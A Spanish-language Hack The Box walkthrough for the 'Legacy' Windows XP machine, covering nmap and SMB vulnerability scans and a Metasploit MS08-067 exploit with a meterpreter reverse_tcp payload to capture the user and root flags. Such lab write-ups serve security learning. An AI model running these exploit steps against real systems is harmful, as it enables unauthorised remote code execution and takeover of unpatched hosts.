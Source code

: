 ```yaml
---
{"dg-publish":true,"permalink":"/hack-the-box/maquinas/easy/legacy/","dgPassFrontmatter":true,"noteIcon":""}
---
```


Empezamos haciendo un nmap a la maquina:

```
nmap -sCV -T5 10.10.10.4 -oN legacy_machine
```

![Pasted image 20250522172723.png](/img/user/Imagenes/Pasted%20image%2020250522172723.png)

Observamos que la maquina es un windows XP lo cual puede indicar que quiza es vulnerable a SMB, enumeramos:

```
nmap -p 445 --script smb-vuln* 10.10.10.4
```

![Pasted image 20250522173331.png](/img/user/Imagenes/Pasted%20image%2020250522173331.png)

Notamos que es vulnerable a CVE:CVE-2017-0143 ->EternalBlue y > **MS08-067: Microsoft Windows Server Service Vulnerability**

Descripcion: Esta vulnerabilidad critica del servicio de red de Windows (Server Service) que permite ejecucion remota de codigo (RCE) mediante paquetes especialmente creados enviados a traves del puerto 139 o 445 (SMB).

## Sistemas afectados:

- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008 (versiones antiguas)
- Windows 2000

## Impacto

- Permite ejecucion remoda de codigo sin autenticacion.
- Fue ampliamente explotada por gusanos como Conficker.

Vamos a probar explotar esta vulnerabilidad con metasploit:

## Explotacion con Metasploit:

- use exploit/windows/smb/ms08_067_netapi
- set RHOST 10.10.10.4
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 10.10.10.4
- run

![Pasted image 20250522174921.png](/img/user/Imagenes/Pasted%20image%2020250522174921.png)

Si queremos saber bajo que usuario se ejecuta el exploit potemos colocar en el **meterpreter> getuid**

![Pasted image 20250522175033.png](/img/user/Imagenes/Pasted%20image%2020250522175033.png)
Luego colocar un shell para ser mas interactivos y buscamos el user.txt y el root.txt

En este caso como estamos en Windows XP, los usuarios los encontramos en **dir C:\\Documents and Settings**

![Pasted image 20250522175409.png](/img/user/Imagenes/Pasted%20image%2020250522175409.png)

Vamos a john para el user.txt:

![Pasted image 20250522175504.png](/img/user/Imagenes/Pasted%20image%2020250522175504.png)

Vamos a administrator para el root.txt:

![Pasted image 20250522175546.png](/img/user/Imagenes/Pasted%20image%2020250522175546.png)

thanks.